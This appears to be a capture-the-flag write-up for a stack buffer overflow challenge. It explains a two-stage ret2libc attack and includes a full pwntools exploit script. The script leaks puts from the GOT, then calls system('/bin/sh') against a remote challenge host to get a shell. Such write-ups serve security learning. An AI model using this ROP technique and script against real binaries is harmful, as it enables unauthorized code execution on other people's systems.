 A classic buffer overflow exploitation. Howerver, this time there was no win function to print out the flag so we had to get a shell using ret2libc technique. The binary has no Canary nor PIE enable so we didn't need to leak anything other than the libc address.

Using gdb we knew that the offset from our input buffer to the return address of `box()` is 56 bytes long.

Our 1st ROP chain would be to leak the address of the `puts()` function from the GOT table using the `puts()` function itself.

The 2nd ROP chain was used to call the `system()` function from the libc with the argument string being "/bin/sh". I didn't use [one_gadget](https://github.com/david942j/one_gadget) since none of the provided gadgets worked.

The other gadgets such as *pop rdi ; ret* you can get them using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) or [Ropper](https://github.com/sashs/Ropper)

Here's the exploit script.

```py
from pwn import *

exe = ELF('./pb')
libc = ELF('./libc.so.6')
io = remote('68.183.37.122', 30673)
#io = exe.process()
#gdb.attach(io, api=True)
# Gadgets:
pad = b'i'*56
pop_rdi = 0x000000000040142b
binsh = 0x1d8698
ret = 0x00000000004013a5

# 1st chain leak libc
io.recvuntil(b'\n>> ')
io.sendline(b'2')
io.recvuntil(b'library: ')
payload = pad + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'])
io.sendline(payload)
io.recvuntil(b'thank you!\n\n')
leak_puts = u64(io.recvline(keepends=False).ljust(8, b'\x00'))
libc.address = leak_puts - libc.sym['puts']

# 2nd chain get shell
io.recvuntil(b'\n>> ')
io.sendline(b'2')
io.recvuntil(b'library: ')
print(hex(libc.sym['system']))
payload = pad + p64(ret) + p64(pop_rdi) + p64(libc.address + binsh) + p64(libc.sym['system'])
io.sendline(payload)

io.interactive()
```
